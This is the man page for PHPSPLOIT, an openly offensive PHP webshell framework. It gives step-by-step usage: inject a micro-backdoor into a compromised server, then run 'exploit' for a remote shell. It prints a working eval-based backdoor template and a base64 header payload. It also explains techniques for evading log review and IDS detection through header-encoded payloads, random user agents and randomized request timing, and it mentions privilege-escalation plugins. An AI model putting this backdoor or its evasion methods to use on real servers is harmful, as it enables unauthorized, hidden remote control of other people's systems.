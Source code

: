.TH "" 1 "" ""


.P
PHPSPLOIT

.SH NAME

.P
\fBphpsploit\fR — furtive tunnel based php webshell

.SH SYNOPSIS

.P
\fBphpsploit\fR [\fItarget\-url\fR|\fIsession\fR]

.SH DESCRIPTION

.P
\fBphpsploit\fR is a furtive tunnel \fIbased\fR php webshell: it was designed in order to help privilege escalation through a very small php backdoor, while remaining the most stealth, efficient, and adjustable as possible.

.P
It innovates by settling for a remotely stored micro backdoor that forwards to dynamic encoded HTTP headers, which act as dynamic payload. This feature is useful to bypass admins searching for suspicious lines in the server logs, because GET requests without arguments, are not as suspect as POST requests, or GET requests with suspicious arguments (eg: "?cmd=cat&edit=/etc/passwd").

.P
The \fBphpsploit\fR framework is plugin based, so users can easily make their own plugins, or edit the built\-in ones, with the \fIpspapi\fR (phpsploit API) that interacts with the target server through the framework.

.P
Its structure allows him to evolve and be easily adapted to all types of web exploitation scenarios, because every setting can be edited \fIglobally\fR (through user configuration file), or \fIlocally\fR, using the \fBset\fR command.

.P
A backdoor to bring them all... \- https://bitbucket.org/nil0x42/phpsploit

.SH OPTIONS

.P
Running \fBphpsploit\fR without any argument runs a blank session, with all settings set to default.

.TP
If an URL is specified as argument, only sets the \fITARGET\fR setting to that value.
\fB$ phpsploit http://127.0.0.1/backdoored\-url.php\fR

.TP
You also can use a previously saved \fIsession\fR file as argument, to use him instead of a blank session. Sessions can (and need to) be saved with the \fBsave\fR command.
\fB$ phpsploit ~/targets/localhost/phpsploit.session\fR

.TP
For inline help, you also can use \fBphpsploit \-\-help\fR

.SH USAGE

.P
The most basic way to use phpsploit it as described here:

.RS
.IP 1. 3
First, find a remote php execution access.
.IP 2. 3
Open phpsploit, and run the \fBinfect\fR command to get the working backdoor.
.IP 3. 3
Inject that backdoor on the remote server.
.IP 4. 3
Run "\fBset TARGET http://site/backdoored\-url.php\fR".
.IP 5. 3
You also can edit some \fBSETTINGS\fR (with the "\fBset\fR" command), such as the PROXY, or REQ_* variables.
.IP 6. 3
Just type "\fBexploit\fR", and enjoy your remote shell access :)
.RE

.P
\fIWARNING\fR: If the "\fBexploit\fR" command doesn't works, and returns an error, it can be for a lot of reasons:

.RS
.IP 1. 3
\fBHTTP Error 400: Bad request\fR \- Generally, this error occurs because one or some \fBREQ_*\fR settings are too big for the server. So you need to settle their values.
.IP 2. 3
\fBRequest error: Connection refused\fR \- If you are sure that the specified \fBTARGET\fR is accessible from your computer (or from the \fBPROXY\fR if defined), this error can occur because the \fBPROXY\fR is invalid
.IP 3. 3
If you have injected your \fBBACKDOOR\fR in an existing remote php code, make sure it is each time executed.
.IP 4. 3
Other issues can occur because one of your \fBSETTINGS\fR where modified without taking care of their validity, or because an IDS has detected the exploitation try.
.IP 5. 3
If the encountered issue is not in the list, you can also post an issue with all details here: https://bitbucket.org/nil0x42/phpsploit/issues or contact the Author (see the \fBAUTHOR\fR section)
.RE

.SH INTERFACE

.P
The \fBphpsploit\fR framework includes two shell interfaces.

.RS
.IP \(bu 3
The \fBMAIN SHELL\fR is the first shell interface, spawned when the framework starts. It is used to prepare a target exploitation. Through it, you can locally adjust the \fBSETTINGS\fR with the "\fBset\fR" command, and use the "\fBinfect\fR" command to get the micro\-backdoor that needs to be injected on the target.
.IP \(bu 3
The \fBREMOTE SHELL\fR interface starts when a target server was exploited. Its is used to interact with the backdoored URL.
.RE

.P
\fBTO GET HELP\fR on a phpsploit command, you can use "\fBhelp <command>\fR", "\fB<command> \-\-help\fR" or "\fB<command> \-h\fR". If there is no specific help for a command, such as \fBinfect\fR, a short description of each command's purpose is available typing \fBhelp\fR without arguments.

.P
The commands are auto\-completed on unix clients, and try to use \fBreadline\fR if available.
They are divided into groups when shown with the "\fBhelp\fR" command:

.RS
.IP \(bu 3
The \fBCORE COMMANDS\fR contains all commands available through every interface.
.IP \(bu 3
The Shell Commands contains the commands specific to the current interface.
.IP \(bu 3
In the remote shell, plugin commands are grouped by categories.
.RE

.P
\fICore Commands:\fR

.TP
\fBclear\fR
Clear the terminal screen
.TP
\fBexit\fR
Leave the current shell interface
.TP
\fBhelp\fR
Shows help for all available commands
.TP
\fBinfect\fR
Prints a working backdoor to inject in the target
.TP
\fBlcd\fR
Change local working directory
.TP
\fBlpwd\fR
Print local working directory
.TP
\fBrtfm\fR
Read this manual page
.TP
\fBsave\fR
Save the current session in a file, for future usage
.TP
\fBset\fR
View and edit phpsploit settings

.SH MAIN SHELL

.P
When entering \fBphpsploit\fR, the main shell is spawned, it helps you to locally edit your settings (\fBset\fR command), get the working backdoor (\fBinfect\fR command), and then start the \fIremote shell\fR (\fBexploit\fR command).

.P
\fIShell Commands:\fR

.TP
\fBexploit\fR
Drop a shell from target server

.SH REMOTE SHELL

.P
When you run the \fBexploit\fR command, you enter the remote shell, and directly interacts with the remotely backdoored server through the \fBphpsploit\fR plugins.
Typing \fBhelp\fR will show the available commands.
\fBCore Commands\fR are all the \fBphpsploit\fR remote shell built\-in commands.

.P
\fIShell Commands:\fR

.TP
\fBenv\fR
This command interacts with the environment variables, for more informations, please read the \fBREMOTE ENVIRONMENT\fR section.
.TP
\fBlastcmd\fR
Allows user to show or save the last command output
.TP
\fBreload\fR
Reloads the commands list, useful if you have edited one plugin during an exploitation session
.TP
\fBshell\fR
Various command plugins, such as \fIsystem\fR, \fImysql\fR and \fIsuidroot\fR can be used as frontend shell. For example, "\fB> shell system\fR" will spawn the "\fBsystem\fR" command as default prompt, making all typed lines to be executed by this plugin.

.P
All the other remote shell commands are in reality dynamic plugins, built with the \fBPSPAPI\fR (phpsploit API).
As with all commands, you can use "\fBhelp <command>\fR" to get help.

.P
The built\-in plugins are storred in the \fI./framework/plugins/\fR directory, sorted by categories, you can edit a built\-in or make your own command, with the \fBPSPAPI\fR.

.P
If you want to make you own plugin, it is recommended to use the alternative plugin directory \fI./plugins/\fR from the phpsploit's user directory, this one works exactly like the buit\-in plugins directory.

.P
If a command has been edited during an exploitation session, use the "\fBreload\fR" command to reload the plugins list.

.SH SETTINGS

.P
The \fBphpsploit\fR settings are available from the interface, they can be viewed, and edited with the \fBset\fR command.

.P
When a new session is opened, all \fIsettings\fR are set to their default values, specified in the phpsploit's user configuration file. Editing this file allows you to specify your own default values, a very useful feature for polymorphic backdoor, or custom HTTP headers. To get more informations about the configuration directory, please go to the \fBFILES\fR section.

.TP
\fBTARGET\fR
This setting contains the remote backdoored URL in target server, for example, if you have injected the backdoor (obtained with the \fBinfect\fR command) on a file named \fBtest.php\fR in your local server's webroot, the \fBTARGET\fR will be http://localhost/test.php .

.RS
\fBDefault value: None\fR
.RE

.TP
\fBBACKDOOR\fR
This is the backdoor template, used to generate the effective micro\-payload to be written into a target web page, it needs to be valid php code, and it's preferable to make him non\-verbose, by prexifing it's main function with an \fI@\fR. For example, \fI@\fReval() instead of eval(). For more informations about how \fBphpsploit\fR builds request, please read the \fBREQUEST BUILDING\fR section.
The only purpose of the \fBBACKDOOR\fR is to execute the \fBREQ_HEADER_PAYLOAD\fR's content so it need to contain the dynamic var %%PASSKEY%%.

.RS
\fBDefault value: <?php @eval($_SERVER['HTTP_%%PASSKEY%%']);?>\fR
.RE

.TP
\fBPASSKEY\fR
This var is interesting for customisation, assuming it is used as main header forwarder's name, changing is default value will act as a \fIpassword\fR, making another \fBphpsploit\fR user unable to use your \fIbackdoor\fR if it does not own the \fBPASSKEY\fR.

.RS
\fBDefault value: phpSpl01t\fR
.RE

.TP
\fBPROXY\fR
With this setting, you can specify an \fIHTTP Proxy\fR, matching the pattern \fBaddress:port\fR, to send \fBphpsploit\fR's requests through it. Be careful, a non\-working \fBPROXY\fR will make the requests unreachable. To disable the proxy, set it's value to \fBNone\fR.

.RS
\fBDefault value: None\fR
.RE

.TP
\fBSAVEPATH\fR
Here you can specify the default directory that will be used to save \fBphpsploit\fR sessions, when no arguments are specified for the \fBsave\fR command. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBTMPPATH\fR
This setting is a bit different than the \fBSAVEPATH\fR one, because phpsploit use it to write temporary files, for example, it is used by the \fBedit\fR command in the \fIremote shell\fR. It uses your system's temporary directory as \fIdefault\fR value.

.TP
\fBREQ_DEFAULT_METHOD\fR
This is the default http METHOD that will be used to send payloads, so it's value can only be \fIGET\fR or \fIPOST\fR.

.RS
\fBDefault value: GET\fR
.RE

.TP
\fBREQ_HEADER_PAYLOAD\fR
This setting is the dynamic payload forwarder, when a request is send by the \fBphpsploit\fR framework, a dynamic \fIHTTP HEADER\fR will be sent on each request, the header's name is the \fBPASSKEY\fR setting, and the value is the  \fBREQ_HEADER_PAYLOAD\fR value, for more informations about how \fBphpsploit\fR builds requests, please read the \fBREQUEST BUILDING\fR section.

.RS
\fBDefault value: eval(base64_decode(%%BASE64%%))\fR
.RE

.TP
\fBREQ_INTERVAL\fR
This setting can be useful for large payloads, sent with a big amount of requests, for example, when using the \fBupload\fR's remote shell command, when seending a big file to the server.
It's used to add a delay between each request with a simple syntax. Using a number as value (ex: 20) will wait this exact numer of seconds, but you cal also specify a tuple of numbers, for example, the default value will make the builder wait a random number of seconds between \fB1\fR and \fB10\fR before each request. To disable it, just set it to \fI0\fR.

.RS
\fBDefault value: 1\-10\fR
.RE

.TP
\fBREQ_MAX_HEADERS\fR
\fBMainly used for HTTP GET requests\fR. Assuming that phpsploit use http headers for payload encapsulation, it's important to know what is the exact http server's headers limit, because a too small \fBREQ_MAX_HEADERS\fR value will decrease the max payload size per request. Most servers, like apache and IIS accept up to 100 headers per request, but other servers can allow 200 headers or more, and smaller servers can limit headers numer to 50 or less. The default value works with a large amount of common servers with default configuration, but in some cases it will be necessary to reduce this value.

.RS
\fBDefault value: 100\fR
.RE

.TP
\fBREQ_MAX_HEADER_SIZE\fR
\fBMainly used for HTTP GET requests\fR. This setting is complementary to the \fBREQ_MAX_HEADERS\fR one, because it sets the max size that \fIeach header\fR can contain. In most cases, the common servers limit the size to \fI8Kio\fR, but many others, like \fBapache tomcat\fR and a lot of virtualized web hosting solutions limit the maximum size of each header to \fI4Kio\fR or less.

.RS
\fBDefault value: 8Kb\fR
.RE

.TP
\fBREQ_MAX_POST_SIZE\fR
\fBMainly used for HTTP POST requests\fR. This is the target server's limit for POST data, in a lot of servers, this limit is very large, such as 32Mio or more, but a lot of other web servers, and their default configurations sets this limit to 8Mio. If you intend to use POST request during a remote \fBphpsploit\fR session, it is recommended to run the \fBphpinfo\fR command that provides the real server's \fImaximum post size\fR, then adapt the \fBphpsploit\fR's \fBREQ_MAX_POST_SIZE\fR.

.RS
\fBDefault value: 8Mb\fR
.RE

.TP
\fBREQ_ZLIB_TRY_LIMIT\fR
On the \fBphpsploit\fR's request builder, when the payload can't be sent in one single request because he is too large, the framework will start a lot of computing functions to calculate how much requests are needed for each \fIhttp method\fR, and to decrease the number of needed requests, he will each time try to compress the payload with \fBZLIB\fR, this feature is useful to decrease the number of requests. But, the bigger the base payload, the slower the needed computation time. Assuming this, you can with this setting specify a maximum payload size, from which the manufacturer will not longer try to compress the cuted payload. That will increase the number of needed requests, but shalt the computation time acceptable. More powerfull your computer, more this value can be increased.

.RS
\fBDefault value: 5Mb\fR
.RE

.TP
\fBHTTP_USER_AGENT\fR
This is the user\-agent header used on each \fBphpsploit\fR request, to pick a random user\-agent from a wordlist on each request, you can also use a \fIfile object\fR as value.

.RS
\fBDefault value: file://framework/misc/http_user_agents.lst\fR
.RE




.P
Note that the \fBHTTP_USER_AGENT\fR setting is included by default, but it is possible to create as many default headers as you want, you just need to create a setting starting with HTTP_ followed by the name of the header.

.RS
\fBExample: set HTTP_ACCEPT_LANGUAGE fr\-FR;en\-US\fR
.RE

.P
\fIFile objects\fR can be used for HTTP_* settings, the syntax is \fBfile:///full/path/to/file.txt\fR, these objects will pick an random line in file for each http request. This facilitates polymorphic requests generation, and therefore, stealth. A file object is by default used for the \fBHTTP_USER_AGENT\fR setting.

.SH REMOTE ENVIRONMENT

.P
The remote environment variables are available from the \fBREMOTE SHELL\fR.
They are useful to store server related informations, and \fBPSPAPI\fR plugins have write access to them.

.P
User can show, edit or delete them with the "\fBenv\fR" command, through the \fBREMOTE SHELL\fR instance.

.P
Be very careful while manually editing these variables, because wrong values can render inoperative certain commands.

.P
There is a list of \fBREMOTE ENVIRONMENT\fR variables used by default by \fBphpsploit\fR core and built\-in plugins:

.TP
\fBCWD\fR
This variable contains the current remote working directory, the \fBcd\fR and \fBpwd\fR commands use it as reference.

.TP
\fBWEB_ROOT\fR
This variable contains the absolute path to the remote web root directory.

.TP
\fBWRITE_TMPDIR\fR
This variable imperatively needs to contain the absolute path to a writeable remote directory. It is essential for multirequest payloads execution, that stores full payload parts into this path.

.TP
\fBWRITE_WEBDIR\fR
This environment variable contains the absolute path to a writeable remote directory \fIimperatively accessible from the web\fR. It can be used for evasion \fBMODULES\fR.

.SH REQUEST BUILDING

.P
This section is about how the \fBphpsploit framework\fR manages the requests.

.P
\fB1 \- BACKDOOR\fR

.RS
.IP \(bu 3
First, the \fBBACKDOOR\fR setting defines the main backdoor template, him, \fIand only HIM\fR needs to be written in the \fBTARGET\fR remote URL.
.IP \(bu 3
To understand the principle, it is necessary to know that the PHP language automatically adds all the \fIrequest headers\fR into the $_SERVER global array, prefixing each header name by the "HTTP_" string.
.IP \(bu 3
Assuming that, the \fBBACKDOOR\fR just works like a forwarder, executing the $_SERVER['HTTP_%%\fBPASSKEY\fR%%'] remote variable who contains the \fBREQ_HEADER_PAYLOAD\fR.
.RE

.P
\fB2 \- REQ_HEADER_PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREQ_HEADER_PAYLOAD\fR also known as \fIHeader Forwarder\fR is a header that is sent on each http request, the \fBPASSKEY\fR setting is used as name, and the \fBREQ_HEADER_PAYLOAD\fR is he's value's template.
.IP \(bu 3
This header acts like a payload forwarder, permitting execution of the \fBBASE64 PAYLOAD\fR, by executing \fBBASE64\fR encoded php code.
.RE

.P
\fB3 \- BASE64 PAYLOAD\fR

.RS
.IP \(bu 3
The \fBBASE64 PAYOLOAD\fR is automatically generated for each request, he is the last step for \fIreal payload execution\fR. They undencoded values can be found in the \fI./framework/phpfiles/forwarders/\fR \fBphpsploit\fR directory.
.IP \(bu 3
\fBFor POST request\fR, this payload executes the $POST['%%\fBPASSKEY\fR%%'] php variable, who is used as \fBREAL PAYLOAD\fR when usgin this http method.
.IP \(bu 3
\fBFor GET requests\fR, it acts concatenating the list of dynamic \fBphpsploit\fR headers alphabetically reordrered, each containing the split \fBREAL PAYLOAD\fR.
.RE

.P
\fB4 \- REAL PAYLOAD\fR

.RS
.IP \(bu 3
The \fBREAL PAYLOAD\fR contains a large amount of \fIzlib compressed\fR then \fIbase64 encoded\fR php code, who is dynamically generated by the \fBphppsloit\fR framework's optimization functions.
.IP \(bu 3
Unencoded (done by default by the \fBBASE64 PAYLOAD\fR), he is the \fBBASE PAYLOAD\fR passed through \fBENCAPSULATION\fR.
.RE

.P
\fB5 \- BASE PAYLOAD\fR

.RS
.IP \(bu 3
The base payload, can be a plugin's payload (contained in the \fI./framework/commands/<gategory>/<plugin>/payload.php\fR file), or the default \fBphpsploit\fR remote session opener that is called when running the \fBexploit\fR command (available in the \fI./framework/phpfiles/server_link/open.php\fR file).
.IP \(bu 3
Base payloads are php 4.1.1 compatible (because a lot of web servers already use an old version of php).
.IP \(bu 3
The \fI!import(<function>)\fR lines allows php base payloads to import \fBphpsploit\fR dedicated functions contained in the\fI./framework/phplibs/\fR directory. Usefull to limit redundancy.
.RE

.P
\fB6 \- ENCAPSULATION\fR

.RS
.IP \(bu 3
To manage return codes and \fBphpsploit\fR tunneling, each \fBBASE PAYLOAD\fR is encapsulated with the \fI./framework/phpfiles/encapsulator.php\fR's php code.
.IP \(bu 3
It also manages response compression with \fBZLIB\fR, to speed\-up server's responses.
.RE

.SH FILES

.P
\fBConfiguration directory:\fR

.TP
If the \fB$XDG_CONFIG_HOME\fR shell environment variable is set:
\fB${XDG_CONFIG_HOME}/phpsploit/\fR (a.k.a. likely ~/.config/phpsploit/)
.TP
Else the user home is used as base directory:
\fB~/.phpsploit/\fR (a.k.a. ${HOME}/.phpsploit/ on GNU/Linux)

.P
The "./config" file is used as \fBphpsploit\fR configuration file, on root user's configuration directory.
It allows to reconfigure the default \fBSETTINGS\fR (see the \fBSETTINGS\fR section for more informations)

.P
The "./plugins/" directory can be used to make your own \fBphpsploit\fR plugins.

.SH ISSUES

.TP
To submit any issue, bug or proposal, please send it in the phpsploit's issues section:
https://bitbucket.org/nil0x42/phpsploit/issues

.SH CONTRIBUTE

.TP
If you want to contribute to \fBphpsploit\fR, submit a plugin, patch, or anything else, take a look at the \fBCONTRIBUTE\fR file, from the ./doc directory

.SH AUTHOR

.P
\fBnil0x42\fR <http://goo.gl/kb2wf>

.SH LICENCE

.P
This software is under the GNU GENERAL PUBLIC LICENSE Version 3, 29 June 2007

.\" man code generated by txt2tags 2.6 (http://txt2tags.org)
.\" cmdline: txt2tags -t man -i /home/nil/dev/phpsploit/framework/misc/user-manual.txt2tags -o /home/nil/dev/phpsploit/doc/MANUAL
